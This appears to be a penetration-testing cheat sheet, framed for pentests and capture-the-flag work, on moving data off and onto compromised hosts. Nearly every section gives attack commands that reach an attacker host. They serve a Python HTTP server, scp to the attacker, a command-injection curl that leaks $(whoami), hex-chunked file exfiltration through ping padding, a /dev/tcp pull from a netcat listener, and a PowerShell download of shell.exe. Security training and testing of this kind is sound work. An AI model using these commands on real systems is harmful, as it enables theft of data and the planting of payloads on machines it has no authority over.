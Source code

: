 # Data Exfiltration
In this module I will cover methods, applications, and syntax used for data exfiltration techniques that I have used during penetration testing or capture the flag.
## Python SimpleHTTPServer
If Python (2.x) is installed on the target system, you can simply start the [SimpleHTTPServer](https://www.pythonforbeginners.com/modules-in-python/how-to-use-simplehttpserver/) 
using the following command in whatever directory that you wish to share temporarily.
```
www-data@target-system:/etc# python -m SimpleHTTPServer 5432
```
And this will instantly share the files on the target system in `/etc` (as you see that is where I started the service) via HTTP on port `5432`
You can then use `wget` recursivley to pull all files found like so, from the attacker machine,
```
root@attacker-system:~/ctf/target/# wget -r http://(TARGET IP ADDRESS):5432 
```
## Python http.server
In Python 3, `SimpleHTTPServer` was merged with `http.server` and you can perform the same as we did in the previous version listing above with the syntax of,
```
www-data@target-system:~# python -m http.server 5432
```
## SCP (SSH)
If SSH is installed on the target system, we can simply use `scp` to exfiltrate data from the target server onto our attacker machine. First, we need to ensure that SSH is running on the attacker machine to accept the connection and file from the target.
Then, we can use the following syntax to transfer the file,
```
user@target-system:~$ scp -P (PORT OF SSH ON ATTACKER) (FILENAME) \
 (USER ON ATTACKER SYSTEM)@(ATACKER IP ADDRESS):/path/on/attacker/machine.extension
```
## HTTP Logs
If command injection is possible on the target server, but it's not possible to save files anywhere to create a shell (super-unprivileged user), we can use `curl` in combination with an interpolated command output to make an HTTP request to our local HTTP server on the attacker system as so,
```
ping 127.0.0.1;curl http://(ATTACKER IP ADDRESS)?username=$(whoami)
```
Then, in our local HTTP logs, we will see the output of `$(whoami)` as the `username` GET request parameter. 
## Using Ping for Data Exfiltration
To use Ping, we will use the `-c` arguemnt and specify 16 bytes to pad the ICMP request. First, we will break the file up into 16 byte chunks using `xxd` like so,
```
user@target-machine:~$ echo "Hello World. We will be exfiltrating this data." > file.out
user@target-machine:~$ xxd -p -c 16 file.out
48656c6c6f20576f726c642e20576520
77696c6c20626520657866696c747261
74696e67207468697320646174612e0a
```
Then, we start Wireshark on the attacker machine and listen for ICMP, using the `icmp` LibPCAP filter. Now, we simply use these 16 byte chunks and pad the ICMP requests to the attacker machine. We can script this like so,
```
user@target-machine:~$ for bytes in $(xxd -p -c 16 file.out); ping -c 1 -p $bytes (ATTACKER IP ADDRESS); done
```
In Wireshark, the hexadecimal bytes will be translated into ASCII. This can be cleaned up by using `tcpdump` on the attacker-machine and parse the ASCII/string output. 

# Data Infiltration
## FTP
You can use FTP for data infiltration on any OS system if you happen to find it installed on a target machine. Check out [/Post Exploitation/ftp.md](https://github.com/weaknetlabs/Penetration-Testing-Grimoire/blob/master/Post%20Exploitation/ftp.md) for more information on how to infiltrate data and binaries to a target system using FTP.
## /dev/tcp/
This new system allows us to interact with TCP. First, we simply start a listener on our attacker machine and feed it a file as so,
```
root@attacker-machine:~# nc -lvvp 666 < host-discov.sh 
```
Then, we simply cat the `/dev/tcp/` file descriptor for our attacker socket (ip:port) and redirect the output directly into a file or `tee` as so,
```
root@nodered:/tmp# cat < /dev/tcp/(ATTACKER IP ADDRESS)/666 > host-discov.sh
```
Notice the format, `/dev/tcp/` then the attacker IP address, and port separated by forward slashes as though it were a simple file.
## Powershell.exe
If we have compromised a system and are in a reverse Powershell, we can infiltrate data to the system using the following Powershell commmands,
```
PS> Invoke-WebRequest -Uri http://(ATTACKER IP):(PORT)/shell.exe -OutFile C:\Users\(TARGET USER)\Desktop\shell.exe
```
PS 3.0+ has `wget` and can be called like so,
```
PS> wget http://(TARGET IP ADDRESS)/shell.exe -OutFile shell.exe
```

